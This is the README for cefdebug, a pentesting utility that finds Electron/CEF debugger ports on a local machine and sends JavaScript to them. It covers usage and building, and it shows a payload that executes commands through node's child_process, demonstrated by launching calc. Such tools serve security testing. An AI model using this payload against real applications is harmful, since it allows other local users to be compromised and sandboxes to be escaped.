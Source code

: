 # cefdebug

This is a minimal commandline utility and/or reference code for using
libwebsockets to connect to an electron/CEF/chromium debugger.

You're probably thinking, "who would enable the debugger in shipping products?".
Well, it turns out just about everyone shipping electron or CEF has made this
mistake at least once.

In very old versions, you could pop a shell remotely just by making a victim
click a link.

Example: https://bugs.chromium.org/p/project-zero/issues/detail?id=773

In slightly older versions, you could pop a shell remotely using DNS rebinding.

Example: https://bugs.chromium.org/p/project-zero/issues/detail?id=1742

In current versions, you can compromise other local users or escape sandboxes.

Example: https://bugs.chromium.org/p/project-zero/issues/detail?id=1944

It happens so often, that I thought pentesters might find it useful to have some
code easily available to interact with them.

# Usage

First, scan the local machine

```
$ ./cefdebug.exe
[2019/10/04 16:18:56:7288] U: There are 3 tcp sockets in state listen.
[2019/10/04 16:18:56:7766] U: There were 1 servers that appear to be CEF debuggers.
[2019/10/04 16:18:56:7816] U: ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a
```

Now you can send commands to that `ws://` URL.

```
$ ./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.version"
[2019/10/04 16:35:06:2645] U: >>> process.version
[2019/10/04 16:35:06:2685] U: <<< v10.11.0
```

Alternatively, you can start a simple interactive shell.

```
$ ./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a
>>> ['hello', 'world'].join(' ')
[2019/10/04 16:36:31:0964] U: <<< hello world
>>> a = 1024
[2019/10/04 16:36:44:5250] U: <<< 1024
>>> a * 2
[2019/10/04 16:36:48:3005] U: <<< 2048
>>> quit
```

## h4x0r1ng

In general, if node is available, something like this might work:

```
$ ./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.mainModule.require('child_process').exec('calc').pid"
[2019/10/04 16:39:18:6464] U: >>> process.mainModule.require('child_process').exec('calc').pid
[2019/10/04 16:39:18:6523] U: <<< 18560
```

Otherwise, you will have to query what apis and objects are exposed. It is almost
certainly game over, as you can use any api the application itself can use.

# Building

## Windows 

> If you don't want to build it yourself, check out the [releases](https://github.com/taviso/ctftool/releases) tab

I used [GNU make](http://gnuwin32.sourceforge.net/packages/make.htm) and Visual
Studio 2019 to develop `cefdebug`. Only 32-bit builds are supported, as this
allows the tool to run on x86 and x64 Windows.

If all the dependencies are installed, just typing `make` in a developer command
prompt should be enough.

I use the "Build Tools" variant of Visual Studio, and the only components I have
selected are MSVC, MSBuild, CMake and the SDK.

This project uses submodules for some of the dependencies, be sure that you're
using a command like this to fetch all the required code.

```
git submodule update --init --recursive
```
## Linux

The main depdencies are libwebsockets and libreadline.

On Fedora, try:

`yum install readline-devel libwebsockets-devel openssl-devel`

If the dependencies are intalled, try `make -f GNUmakefile.linux`

## Embedding

The code is intended to be simple enough to embed in other pentesting tools.

# Authors

Tavis Ormandy <taviso@gmail.com>

# License

All original code is Apache 2.0, See LICENSE file for details.

The following components are imported third party projects.

* [wineditline](http://mingweditline.sourceforge.net/), by Paolo Tosco.
  * wineditline is used to implement user friendly command-line input and
    history editing.
* [libwebsockets](https://libwebsockets.org), by Andy Green et al.
  * libwebsockets is a portable c implementation of HTML5 websockets.